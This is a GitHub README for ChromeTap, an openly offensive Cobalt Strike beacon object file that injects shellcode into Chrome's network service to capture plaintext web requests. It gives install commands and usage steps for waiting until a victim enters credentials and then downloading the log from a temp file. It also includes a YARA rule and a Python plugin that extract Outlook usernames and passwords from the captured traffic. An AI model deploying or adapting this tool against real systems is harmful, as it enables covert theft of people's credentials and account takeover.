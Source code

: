 # ChromeTap

Place a wiretap on chrome and steal secrets.

### Overview

ChromeTap is a beacon object file that will inject shellcode into chrome's network service that will place hooks allowing for plain text requests to be stolen before they are sent along the wire.  It solely uses direct syscalls to do this and is careful of its memory permissions. 

### Install

``` bash
$ git clone https://github.com/bats3c/ChromeTools
$ cd chrometools/chrometap
$ pip3 install -r huntforsecrets/requirements.txt && make
```

### Usage

- Load the CNA into cobalt strike

![image-20210106122513885](imgs/image-20210106122513885.png)

- Run the command `chrometap`. This will overwrite the current log file so make sure its backed up if running the command multiple times.

  ![image-20210106122905830](imgs/image-20210106122905830.png)

- Once you have left it running for a while and think the user might have entered credentials into a website, download the log file which is stored in `C:\windows\temp\chromecrash.log` 

  ![image-20210106123621620](imgs/image-20210106123621620.png)

  The log file is going to be quite big, but that's just due to the technique used to steal the data. The good news is that it will compress really well so is worth compressing on disk before downloading.

  ![image-20210106124205776](imgs/image-20210106124205776.png)

- With the log file now on your local machine you can use the `./hunt.py` command to find secrets inside it

  ![image-20210106124833240](imgs/image-20210106124833240.png)

### Writing Plugins and Rules

`hunt.py` is only able to extract secrets from requests that have supported YARA rules and plugins. These are super easy to write. Here's an example of writing a them to extract data from outlook logins.

Looking at the HTTP login request its possible to pick out strings that are specific to the request and can be used to identify it.

![image-20210106131623124](imgs/image-20210106131623124.png)

Allowing a YARA rule, like the one below, to find it.

YARA rules should be stored in the `rules/` directory and both file name and rule name can be anything you like. 

```
rule outlook_creds {
    meta:
        author = "@_batsec_"
        plugin = "outlook_parse"
    strings: 
        $str1 = "login.live.com" 
        $str2 = "login=" 
        $str3 = "hisScaleUnit="
        $str4 = "passwd="
    condition: 
        all of them 
}
```

When `hunt.py` finds a match, it uses the value of the `plugin` variable in the rule as the name of the plugin to load and parse the request.

A plugin is just a function in the `plugins.py` file. 

It will be given the raw request as a bytes object and should return a dictionary containing the name and secret of everything it finds, e.g. `{'site': 'login.live.com', 'username': 'asdf%40asdf.com', 'password': 'ThisIsMyVerySecurePassword123%21'}`.

The plugin to parse the outlook request is shown below.

```python
def outlook_parse(request):

    creds = {}

    creds['site'] = 'login.live.com'

    login = re.search(rb'login=(.*)&', request).group(1).decode()
    login = login[:login.index('&')]
    creds['username'] = login

    passwd = re.search(rb'passwd=(.*)&', request).group(1).decode()
    passwd = passwd[:passwd.index('&')]
    creds['password'] = passwd
    
    return creds
```

Feel free to DM me if you find any bugs or have any questions.
